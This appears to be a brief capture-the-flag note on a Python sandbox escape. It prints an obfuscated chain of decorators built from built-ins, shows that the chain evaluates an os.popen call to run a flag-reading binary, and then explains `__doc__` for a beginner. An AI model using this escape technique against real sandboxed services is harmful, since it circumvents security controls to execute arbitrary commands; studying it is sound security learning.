 ```python
@len
@len.__doc__.format
@copyright._Printer__filenames.extend
@str.encode
@int.real.__name__.strip
@len.__name__.format
@copyright._Printer__filenames.append
@len
@ValueError.__doc__.format
@copyright._Printer__filenames.append
@len
@Exception.__doc__.format
@copyright._Printer__filenames.append
@len
@OSError.__doc__.format
@copyright._Printer__filenames.append
@len
@StopIteration.__doc__.format
@copyright._Printer__filenames.extend
@str.encode
@open.__name__.format
@copyright._Printer__filenames.append
@len
@set.__doc__.format
@copyright._Printer__filenames.append
@len
@Exception.__doc__.format
@copyright._Printer__filenames.extend
@str.encode
@__import__.__name__.__add__
@str
@tuple
@str.split
@str.lower
@OSError.__name__.rstrip
@TypeError.__name__.format
class room: ...
```

The above code is doing:

```python
print(list(eval(b'__import__("os",).popen("./rea*")')))
```

Because I am extremely unfamiliar with Python, I need to learn it quickly.

`__doc__` can get the documentation of a method, which needs to be declared in the source code, like this:

``` python
def test():
  """hello"""
print(test.__doc__) # hello
```
